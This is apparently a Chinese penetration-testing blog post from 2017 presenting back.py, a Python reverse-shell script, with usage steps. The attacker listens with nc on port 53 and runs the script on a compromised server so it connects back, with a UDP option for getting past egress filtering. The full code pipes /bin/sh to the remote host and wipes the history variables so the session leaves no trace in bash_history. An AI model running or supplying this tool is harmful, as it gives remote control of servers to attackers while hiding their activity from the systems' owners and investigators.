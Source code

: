 ```yaml
---
title: back.py反弹shell
date: 2017-09-11 17:50:57
tags: 
    - 渗透
    - 内网
    - Python
categories: 渗透
---
```


back.py会自动去掉各种history记录，确保shell断掉的时候不会被记录到bash_history里面，而且反弹也稳定不会断，推荐使用
使用方法：back.py 你本地监听的IP 端口 [udp]

首先本地使用nc监听：nc -l -vv -p 53

然后被控服务器执行：back.py 114.113.112.111 53即可

如果不行，请确定服务器53端口能出去（测试方法就是ping百度，看看能否解析出地址）。或者先使用lcx监听，再本地用nc连接lcx。

udp是为了突破某些连53端口都出不去时的情景，也不全成功，udp传输的话会不稳定，不多说了上代码


``` python
# -*- coding:utf-8 -*-

#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
UDP by anthrax@insight-labs.org
"""
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port> [udp]' % name

def main():
    if len(sys.argv) <3:
        usage(sys.argv[0])
        sys.exit()
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        if sys.argv[3]=='udp':
            s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
    except:pass
    try:
        s.connect((sys.argv[1],int(sys.argv[2])))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    global shell
    os.unsetenv("HISTFILE")
    os.unsetenv("HISTFILESIZE")
    os.unsetenv("HISTSIZE")
    os.unsetenv("HISTORY")
    os.unsetenv("HISTSAVE")
    os.unsetenv("HISTZONE")
    os.unsetenv("HISTLOG")
    os.unsetenv("HISTCMD")
    os.putenv("HISTFILE",'/dev/null')
    os.putenv("HISTSIZE",'0')
    os.putenv("HISTFILESIZE",'0')
    pty.spawn(shell)
    s.close()

if __name__ == '__main__':
    main()
```
